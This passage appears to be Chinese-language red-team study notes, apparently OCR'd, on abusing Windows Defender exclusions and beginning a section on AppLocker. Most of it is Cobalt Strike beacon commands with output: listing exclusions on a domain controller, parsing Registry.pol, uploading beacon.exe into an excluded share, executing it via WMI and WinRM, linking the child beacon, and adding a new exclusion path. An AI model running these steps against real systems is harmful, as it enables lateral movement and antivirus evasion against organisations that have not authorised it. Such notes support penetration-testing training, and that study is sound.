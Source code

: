 beacon> powerpick $ExecutionContext.SessionState.LanguageMode
FullLanguage
```


# Exclusions

所有杀毒软件厂商都有自己的例外规则。Windows Defender 允许管理员通过 GPO 或在单台计算机上本地添加排除项

通常的排除项包括以下三种类型：

1. 扩展名   - 按文件扩展名排除所有文件。(Extension - exclude all files by their file extension.)
2. 目录路径 -排除给定目录中的所有文件。(Path - exclude all files in the given directory.)
3. 进程     - 排除指定进程打开的任何文件。(Process - exclude any file opened by the specified processes.)


```Get-MpPreference```可用于列出当前排除项。远程执行使用```remote-exec```
```
beacon> remote-exec winrm dc-2 Get-MpPreference | select Exclusion*

ExclusionExtension : 
ExclusionIpAddress : 
ExclusionPath : {C:\Shares\software}
ExclusionProcess :
```

如果排除项是通过GPO配置的，并且你能找到相应的Registry.pol文件，你可以用```Parse-PolFile```读取它们
```
PS C:\Users\Administrator\Desktop> Parse-PolFile .\Registry.pol

KeyName : Software\Policies\Microsoft\Windows Defender\Exclusions
ValueName : Exclusions_Paths
ValueType : REG_DWORD
ValueLength : 4
ValueData : 1

KeyName : Software\Policies\Microsoft\Windows Defender\Exclusions\Paths
ValueName : C:\Windows\Temp
ValueType : REG_SZ
ValueLength : 4
ValueData : 0
```

如果发现有可写的文件夹，可用于上传payload
```
beacon> cd \\dc-2\c$\shares\software
beacon> upload C:\Payloads\beacon.exe
beacon> remote-exec wmi dc-2 C:\Shares\Software\beacon.exe
beacon> remote-exec winrm dc-2 cmd /c C:\Shares\Software\beacon.exe
beacon> link dc-2
[+] established link to child beacon: 10.10.17.71
```


添加自己的排除项(路径)
```
Set-MpPreference -ExclusionPath "<path>"
```

# AppLocker

AppLocker 是 Microsoft 的应用程序白名单技术，可以限制允许在系统上运行的可执行文件、库和脚本

AppLocker 规则分为 5 个类别：
- 可执行文件
- Windows Installer
- Script
```